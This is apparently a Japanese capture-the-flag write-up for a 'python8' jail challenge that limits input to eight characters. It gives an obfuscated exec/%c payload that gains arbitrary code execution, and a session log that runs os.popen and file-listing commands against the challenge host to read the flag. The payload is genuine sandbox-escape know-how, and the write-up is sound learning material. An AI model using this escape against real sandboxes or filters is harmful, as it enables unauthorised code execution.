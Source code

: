 # python8:Misc

$ python8

`nc 160.251.183.149 3838`

Attachment\
[python8.zip]()

Difficulty Level : medium\
Point : 300

# Solution
添付ファイルを見てみると、使える文字が`0'()%cex`だけに制限されていた。\
Python8は未来すぎて使える文字が8文字しかないらしい。\
使える文字からして、明らかに`exec`と`%c`を使えとのことだろう。\
`exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))`が使えるという情報を頂いたのでそのまま使わせていただきました。(この部分はどうしても分からなかった...)\
python8.pyを実行して上記コードを投げると、任意の関数を実行できるようになる。(上記コードの解析依頼をChatGPT君に投げたら、バグりかけて途中で停止し正常動作に戻ったのはすごかった。さすがです。)\
`ls`、`cd`、`cat`を使ってflagを探したいが、これはLinuxではなくPythonなので、コマンドをそれぞれ置き換える。
```python
ls = import os as o; print('\n'.join(o.listdir('.')))
cd = import os as o; o.chdir('..')
cat = import os as o; print(o.popen('cat flag.txt').read())
```
上記コードを使ってディレクトリのどこかにあるflagを探索していく。
```
$ nc 160.251.183.149 3838
Python 8.26.1997 (main, Aug 26 2997, 00:00:00) [SatoCompiler 1.0.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os as o; print('\n'.join(o.listdir('.')))
run
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os as o; o.chdir('..')
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os as o; print('\n'.join(o.listdir('.')))
app
var
home
sys
srv
usr
opt
mnt
bin
etc
media
dev
flag-31ac9361857cf0098f093447acbbd315.txt
proc
sbin
lib
lib64
root
boot
run
tmp
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os as o; print(o.popen('cat flag-31ac9361857cf0098f093447acbbd315.txt').read())
flag{1_pr0b4bly_w0n7_b3_4l1v3_by_7h3_71m3_py7h0n_r34ch35_v3r510n_8}
```
flagが得られた。

`flag{1_pr0b4bly_w0n7_b3_4l1v3_by_7h3_71m3_py7h0n_r34ch35_v3r510n_8}`
